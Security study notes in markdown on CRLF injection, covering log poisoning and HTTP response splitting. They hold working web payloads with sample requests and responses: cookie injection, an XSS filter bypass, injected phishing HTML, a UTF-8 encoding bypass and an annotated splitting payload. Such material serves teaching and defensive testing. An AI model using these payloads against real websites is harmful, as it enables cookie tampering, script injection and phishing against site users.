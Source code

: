 ```yaml
---
tags:
  - web-app-security
---
```

# #**What is CRLF injection?**

_CRLF injection_ is a vulnerability that lets a malicious hacker inject carriage return (CR) and linefeed (LF) characters to change the way a web application works or to confuse its administrator. There are two main malicious uses for CRLF injections: _log poisoning_ (also called _log injection, log splitting,_ or _log forging)_ and _HTTP response splitting_.

# Carriage Return Line Feed

> The term CRLF refers to Carriage Return (ASCII 13, \r) Line Feed (ASCII 10, \n). They're used to note the termination of a line, however, dealt with differently in today’s popular Operating Systems. For example: in Windows both a CR and LF are required to note the end of a line, whereas in Linux/UNIX a LF is only required. In the HTTP protocol, the CR-LF sequence is always used to terminate a line.

> A CRLF Injection attack occurs when a user manages to submit a CRLF into an application. This is most commonly done by modifying an HTTP parameter or URL.

## Summary

- [CRLF - Add a cookie](#crlf---add-a-cookie)
- [CRLF - Add a cookie - XSS Bypass](#crlf---add-a-cookie---xss-bypass)
- [CRLF - Write HTML](#crlf---write-html)
- [CRLF - Filter Bypass](#crlf---filter-bypass)
- [Labs](#labs)
- [References](#references)

## CRLF - Add a cookie

Requested page

```http
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue
```

HTTP Response

```http
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Location: https://www.example.net/[INJECTION STARTS HERE]
Set-Cookie: mycookie=myvalue
X-Frame-Options: SAMEORIGIN
X-Sucuri-ID: 15016
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
```

## CRLF - Add a cookie - XSS Bypass

Requested page

```powershell
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```

HTTP Response

```http
HTTP/1.1 200 OK
Date: Tue, 20 Dec 2016 14:34:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 22907
Connection: close
X-Frame-Options: SAMEORIGIN
Last-Modified: Tue, 20 Dec 2016 11:50:50 GMT
ETag: "842fe-597b-54415a5c97a80"
Vary: Accept-Encoding
X-UA-Compatible: IE=edge
Server: NetDNA-cache/2.2
Link: <https://example.com/[INJECTION STARTS HERE]
Content-Length:35
X-XSS-Protection:0

23
<svg onload=alert(document.domain)>
0
```

## CRLF - Write HTML

Requested page

```http
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```

HTTP response

```http
Set-Cookie:en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34

<html>You have been Phished</html>
```

## CRLF - Filter Bypass

Using UTF-8 encoding

```http
%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28innerHTML%28%29%E5%98%BE
```

Remainder:

* %E5%98%8A = %0A = \u560a
* %E5%98%8D = %0D = \u560d
* %E5%98%BE = %3E = \u563e (>)
* %E5%98%BC = %3C = \u563c (<)


## Labs

* [https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection)


## References

* https://www.owasp.org/index.php/CRLF_Injection
* https://vulners.com/hackerone/H1:192749

# #**What is log poisoning?**

In a log poisoning attack based on CRLF injection, a malicious hacker injects CRLF characters into web server log files to confuse both automatic log analysis systems and system administrators browsing the logs manually.

# CRLF_Injection Example

- [ ] `http://www.example.com/example.php?id=` – starting a valid request to a page with a CRLF injection vulnerability.
- [ ] `%0d%0aContent-Length:%200` – a fake HTTP response header of `Content-Length: 0`. This causes the web browser to treat this response as terminated and start parsing the next response.
- [ ] `%0d%0a%0d%0aHTTP/1.1%20200%20OK` – the injected new response begins here with a double CRLF sequence followed by `HTTP/1.1 200 OK`.
- [ ] `%0d%0aContent-Type:%20text/html` – another fake HTTP response header: `Content-Type: text/html`. This is required for the browser to treat this data as HTML content.
- [ ] `%0d%0aContent-Length:%2025` – yet another fake HTTP response header: `Content-Length: 25`. This instructs the browser to parse only the next 25 bytes and discard any remaining data as junk, causing it to ignore the legitimate HTTP content sent by the web server.
- [ ] `%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E` – a double CRLF sequence signals that the headers are over and the response body starts. The injected page content is `<script>alert(1)</script>`, which causes the user’s browser to display an alert instead of the actual _example.php_ page.